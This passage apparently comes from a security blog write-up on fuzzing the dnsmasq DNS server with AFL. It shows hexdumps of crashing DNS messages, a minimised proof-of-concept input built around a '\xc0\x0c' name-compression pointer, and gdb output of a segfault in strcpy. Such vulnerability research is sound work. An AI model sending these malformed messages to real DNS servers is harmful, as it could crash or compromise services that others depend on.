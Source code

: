 (note the 0xc0 at the end - our old friend - but instead of figuring out "\xc0\x0c", the simplest case, it found a much more complex case)

Whereas here are all four crashing messages from the valid request starting point:

<pre>
crashes $ <span class='in'>hexdump -C id\:000000\,sig\:11\,src\:000034\,op\:flip2\,pos\:24</span>
00000000  12 34 01 00 00 01 00 00  00 00 00 00 06 67 6f 6f  |.4...........goo|
00000010  67 6c 65 03 63 6f 6d c0  0c 01 00 01              |gle.com.....|
0000001c
</pre>

<pre>
crashes $ <span class='in'>hexdump -C id\:000001\,sig\:11\,src\:000034\,op\:havoc\,rep\:4</span>
00000000  12 34 08 00 00 01 00 00  e1 00 00 00 06 67 6f 6f  |.4...........goo|
00000010  67 6c 65 03 63 6f 6d c0  0c 01 00 01              |gle.com.....|
0000001c
</pre>

<pre>
crashes $ <span class='in'>hexdump -C id\:000002\,sig\:11\,src\:000034\,op\:havoc\,rep\:2</span>
00000000  12 34 01 00 eb 00 00 00  00 00 00 00 06 67 6f 6f  |.4...........goo|
00000010  67 6c 65 03 63 6f 6d c0  0c 01 00 01              |gle.com.....|
</pre>

<pre>
crashes $ <span class='in'>hexdump -C id\:000003\,sig\:11\,src\:000034\,op\:havoc\,rep\:4</span>
00000000  12 34 01 00 00 01 01 00  00 00 10 00 06 67 6f 6f  |.4...........goo|
00000010  67 6c 65 03 63 6f 6d c0  0c 00 00 00 00 00 06 67  |gle.com........g|
00000020  6f 6f 67 6c 65 03 63 6f  6d c0 00 01 00 01        |oogle.com.....|
0000002e
</pre>

The first three crashes are interesting, because they're very similar. The only differences are the flags field (0x0100 or 0x0800) and the count fields (the first is unmodified, the second has 0xe100 "authority" records listed, and the third has 0xeb00 "question" records). Presumably, that stuff doesn't matter, since random-looking values work.

Also note that near the end of every message, we see our old friend again: "\xc0\x0c".

We can run afl-tmin on the first one to get the tightest message we can:

<pre>
00000000  30 30 30 30 30 30 30 30  30 30 30 30 06 30 6f 30  |000000000000.0o0|
00000010  30 30 30 03 30 30 30 c0  0c                       |000.000..|
</pre>

As predicted, the question and answer counts don't matter. All that matters is the name's length fields and the "\xc0\x0c". Oddly it included the "o" from google.com, which is probably a bug (my fuzzing instrumentation isn't perfect because due to requests going to the Internet, the result isn't always deterministic).

<h2>The vulnerability</h2>

Now that we have a decent PoC, let's check it out in a debugger:

<pre>
$ <span class='in'>gdb -q --args ./dnsmasq -d --randomize-port --client-fuzz=./min.bin</span>
Reading symbols from ./dnsmasq...done.
Unable to determine compiler version.
Skipping loading of libstdc++ pretty-printers for now.
(gdb) <span class='in'>run</span>
[...]
Program received signal SIGSEGV, Segmentation fault.
__strcpy_sse2 () at ../sysdeps/x86_64/multiarch/../strcpy.S:135
135     ../sysdeps/x86_64/multiarch/../strcpy.S: No such file or directory.
</pre>

